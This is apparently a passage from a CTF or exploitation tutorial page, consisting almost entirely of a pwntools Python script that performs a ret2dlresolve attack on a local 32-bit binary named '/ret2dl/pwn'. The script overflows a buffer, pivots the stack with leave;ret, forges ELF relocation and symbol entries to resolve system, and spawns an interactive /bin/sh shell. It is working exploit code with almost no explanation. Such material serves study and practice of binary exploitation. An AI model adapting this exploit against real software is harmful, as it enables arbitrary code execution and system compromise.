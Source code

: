 ​ **payload 速通版：**

```plain
from pwn import *
context.arch = "i386"
c=process('/ret2dl/pwn')
elf=ELF('/ret2dl/pwn')

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr 
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

read_plt = elf.plt['read'] 
read_got = elf.got['read'] 
leave_ret= 0x0804854A      
writable_addr = 0x0804a700 

Elf32_Sym_sys_addr = writable_addr + 32
align = 0x10-((Elf32_Sym_sys_addr-dynsym)&0xf) 
Elf32_Sym_sys_addr += align   
st_name = Elf32_Sym_sys_addr + 0x10 - dynstr 
Elf32_Sym_sys = p32(st_name) + p32(0) + p32(0) + p32(12) 

r_offset = read_got
r_index  = (Elf32_Sym_sys_addr-dynsym)/0x10
r_info   = int(r_index)<<8 | 0x7
reloc_index = writable_addr - rel_plt + 24
Elf32_rel_plt_sys = p32(r_offset) + p32(r_info) 
Elf32_rel_plt_sys_addr = reloc_index + rel_plt

payload1 = 0x2c * b'a'
payload1 += p32(read_plt)
payload1 += p32(0x0804852D) 
payload1 += p32(0)
payload1 += p32(writable_addr)
payload1 += p32(100)
c.send(payload1)

payload2 =  p32(plt0)   
payload2 += p32(reloc_index) 
payload2 += p32(0xdeadbeef)  
payload2 += p32(writable_addr+80)
payload2 += p32(0)          
payload2 += p32(0)          
payload2 += Elf32_rel_plt_sys 
payload2 += align*b'a'  
payload2 += Elf32_Sym_sys
payload2 += b'system\x00'
payload2 += (80-len(payload2))*b'a'
payload2 += b'/bin/sh\x00'
c.send(payload2)

payload3 =  0x28 * b'a'
payload3 += p32(writable_addr-4) 
payload3 += p32(leave_ret) 
c.send(payload3)

c.interactive()
```
